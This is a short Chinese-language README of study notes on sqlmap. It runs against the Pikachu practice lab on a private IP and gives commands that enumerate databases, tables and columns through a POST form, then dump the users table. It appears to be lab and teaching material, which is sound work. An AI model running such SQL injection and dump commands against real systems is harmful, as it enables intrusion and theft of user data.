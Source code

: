 # sqlmap使用

## 1.post

![sql1](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/sql1.png)

对靶场测试，post的一个注入

sqlmap -u "http://ip/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" --forms --dbs

--forms 测试表单，--dbs爆库

sqlmap -u "http://192.168.127.130/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu --tables

-D指定库 --tables爆表

sqlmap -u "http://192.168.127.130/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --columns

-T指定表 --columns爆列



sqlmap -u "http://192.168.127.130/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users -C 列1,列2 --dump

爆信息